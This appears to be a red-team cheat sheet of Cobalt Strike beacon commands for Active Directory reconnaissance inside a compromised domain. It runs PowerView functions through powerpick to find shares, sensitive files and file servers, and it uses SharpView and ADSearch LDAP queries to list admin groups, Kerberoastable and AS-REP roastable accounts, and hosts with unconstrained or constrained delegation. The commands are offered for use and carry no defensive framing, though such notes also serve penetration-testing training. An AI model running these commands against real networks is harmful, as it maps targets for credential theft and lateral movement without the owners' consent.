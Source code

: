 # Find shares on hosts in current domain.
beacon> powerpick Invoke-ShareFinder –Verbose
# Find sensitive files on computers in the domain
beacon> powerpick Invoke-FileFinder -Verbose
# Get all fileservers of the domain
beacon> powerpick Get-NetFileServer

    Domain recon using SharpView binary

beacon> execute-assembly C:\Tools\SharpView\SharpView\bin\Release\SharpView.exe Get-Domain

    Domain recon using ADSearch

beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "objectCategory=user"

beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=group)(cn=*Admins*))"

beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=group)(cn=MS SQL Admins))" --attributes cn,member

# Kerberostable Users
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName

# ASEPROAST
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

# Unconstrained Delegation
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname

# Constrained Delegation
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json

# Additionally, the `--json` parameter can be used to format the output in JSON
